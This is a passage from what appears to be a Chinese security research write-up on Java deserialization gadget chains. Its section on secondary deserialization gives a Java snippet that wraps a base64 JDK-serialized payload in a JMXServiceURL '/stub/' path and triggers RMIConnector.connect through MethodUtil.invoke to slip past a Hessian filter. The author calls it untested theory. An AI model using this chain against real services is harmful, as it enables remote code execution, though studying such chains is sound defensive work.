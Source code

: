 #### 四、打二次反序列

[![](assets/1706771717-888e4217c806744f15d25dbb04a95c73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129165616-42ffb93a-be84-1.png)

没过滤 javax.management.remote.rmi

```plain
File file = new File("jdk 的序列化 bin");
byte[] fileBytes = Files.readAllBytes(file.toPath());
String base64 = Base64.getEncoder().encodeToString(fileBytes);

JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
Method connect = rmiConnector.getClass().getMethod("connect");
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ connect,rmiConnector, null}};
```

打 RMIConnector 的二次。需要注意二次使用 jdk 的序列化，不是 hessian 的。

以上未尝试复现，纯理论，实战可能需要改改。

总后致敬**wh1t3p1g**，都是 XStream 的链子。

### 0x06 参考链接
